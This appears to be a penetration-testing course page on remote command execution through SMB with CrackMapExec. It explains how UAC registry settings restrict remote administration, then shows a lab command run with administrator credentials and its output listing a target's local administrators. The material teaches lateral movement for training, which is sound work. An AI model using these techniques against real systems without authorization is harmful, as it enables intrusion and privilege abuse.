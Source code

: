 # Command Execution

We must check for the presence of `UAC` before attempting to execute a command as a local administrator on a remote target. When UAC is enabled, which is the case by default, only the administrator account with RID 500 (the default administrator) can execute remote commands. There are two registry keys to check if this is the case:

|                                                                                                |
| ---------------------------------------------------------------------------------------------- |
| `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` |
| `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\FilterAdministratorToken`      |

By default, the value of `LocalAccountTokenFilterPolicy` is set to `0`, meaning that only the built-in administrator account (RID 500) can perform administration tasks. Even if we are in the local administrator group, we will only be able to execute remote commands if the RID of our user is 500. All administrator accounts can execute administrative tasks if the value is set to `1`.

Another setting an administrator can configure is to prevent the local administrator account (RID 500) from performing remote administration tasks. This could be done by setting the registry value `FilterAdministratorToken` to `1`, meaning that the built-in administrator account (RID 500) can not perform remote administrative tasks.

***

## Command Execution as Administrator

Let's use the Administrator account to execute commands and see who is a member of the administrators' group. To run Windows command line commands, we need to use the option `-x` followed by the command we want to execute.

### **Execute a Command as Administrator**

```shell-session
$ crackmapexec smb 10.129.204.133 -u Administrator -p 'AnotherC0mpl3xP4$$' --local-auth -x "net localgroup administrators" 

SMB         10.129.204.133  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:False)
SMB         10.129.204.133  445    MS01             [+] MS01\Administrator:AnotherC0mpl3xP4$$ (Pwn3d!)
SMB         10.129.204.133  445    MS01             [+] Executed command 
SMB         10.129.204.133  445    MS01             Alias name     administrators
SMB         10.129.204.133  445    MS01             Comment        Administrators have complete and unrestricted access to the computer/domain
SMB         10.129.204.133  445    MS01             
SMB         10.129.204.133  445    MS01             Members
SMB         10.129.204.133  445    MS01             
SMB         10.129.204.133  445    MS01             -------------------------------------------------------------------------------
SMB         10.129.204.133  445    MS01             Administrator
SMB         10.129.204.133  445    MS01             INLANEFREIGHT\david
SMB         10.129.204.133  445    MS01             INLANEFREIGHT\Domain Admins
SMB         10.129.204.133  445    MS01             INLANEFREIGHT\julio
SMB         10.129.204.133  445    MS01             INLANEFREIGHT\robert
SMB         10.129.204.133  445    MS01             localadmin
SMB         10.129.204.133  445    MS01             The command completed successfully.
```
